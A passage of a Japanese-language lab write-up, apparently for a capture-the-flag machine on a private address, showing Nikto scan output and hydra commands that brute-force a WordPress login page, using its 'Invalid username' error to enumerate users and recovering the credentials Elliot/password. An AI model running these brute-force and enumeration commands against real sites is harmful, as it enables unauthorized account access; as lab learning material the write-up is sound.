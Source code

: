 ```shell
+ /wp-admin/wp-login.php: Wordpress login found.
+ /wordpress/wp-admin/wp-login.php: Wordpress login found.
+ /blog/wp-login.php: Wordpress login found.
+ /wp-login.php: Wordpress login found.
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2024-12-01 21:59:58 (GMT-5) (160 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### WordPress ログインブルートフォース

#### admin

ググったら WordPress のデフォルト管理者ユーザー名は admin とのことなので、ユーザー名固定でブルートフォース

```shell
$ hydra 192.168.11.16 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.11.16%2Fwp-admin%2F&testcookie=1:H=Cookie\: s_fid=12D63D3389C939B6-27B51C3E15FF28A1; s_nr=1733107592965; wordpress_test_cookie=WP+Cookie+check; s_cc=true; s_sq=%5B%5BB%5D%5D:Error" -l admin -P /usr/share/wordlists/metasploit/password.lst -f
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```

ヒットしなかった。というより、よく見たら「無効なユーザー名」と表示されていた。  
エラー内容が、無効なユーザー名であることを示唆しているので、パスワード固定でユーザー名のブルートフォースが可能。

#### ユーザー名ブルートフォース

リストとして、robots.txt で見つけたディクショナリを用いる。

```shell
$ hydra 192.168.11.16 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.11.16%2Fwp-admin%2F&testcookie=1:H=Cookie\: s_fid=12D63D3389C939B6-27B51C3E15FF28A1; s_nr=1733107592965; wordpress_test_cookie=WP+Cookie+check; s_cc=true; s_sq=%5B%5BB%5D%5D:Invalid username" -L ./fsocity.dic  -p password
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-02 01:14:12
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://192.168.11.16:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.11.16%2Fwp-admin%2F&testcookie=1:H=Cookie\: s_fid=12D63D3389C939B6-27B51C3E15FF28A1; s_nr=1733107592965; wordpress_test_cookie=WP+Cookie+check; s_cc=true; s_sq=%5B%5BB%5D%5D:Invalid username
[80][http-post-form] host: 192.168.11.16   login: Elliot   password: password
[80][http-post-form] host: 192.168.11.16   login: elliot   password: password
[STATUS] 2920.00 tries/min, 2920 tries in 00:01h, 855315 to do in 04:53h, 16 active
[STATUS] 2941.67 tries/min, 8825 tries in 00:03h, 849410 to do in 04:49h, 16 active
[80][http-post-form] host: 192.168.11.16   login: ELLIOT   password: password
[STATUS] 2932.00 tries/min, 20524 tries in 00:07h, 837711 to do in 04:46h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
